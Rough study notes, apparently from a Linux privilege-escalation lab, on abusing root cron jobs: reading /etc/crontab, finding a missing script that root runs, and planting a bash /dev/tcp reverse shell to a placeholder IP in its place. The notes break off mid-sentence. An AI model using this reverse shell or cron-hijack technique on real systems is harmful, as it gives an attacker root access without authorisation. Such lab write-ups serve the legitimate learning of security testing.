 Identification 

`cat /etc/crontab`
in here cronjobs tab 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md


![](/Linux-Privilege-Notes/images/cronjobs.png)

here we can see 2 process are running as root 

1)  * * * * root overwrite.sh
2) * * * * * root /usr/local/bin/compress.sh

**PART 1**
 as  we can see they are running every minute , every second 

we can see the path of crontab that is /home/user 

if we see there is no overwrite.sh on home user so  we put a reverse shell there and wait for the execution 

"bash -i >& /dev/tcp/IP/1234 0>&1"



similarly we put a reverse shell





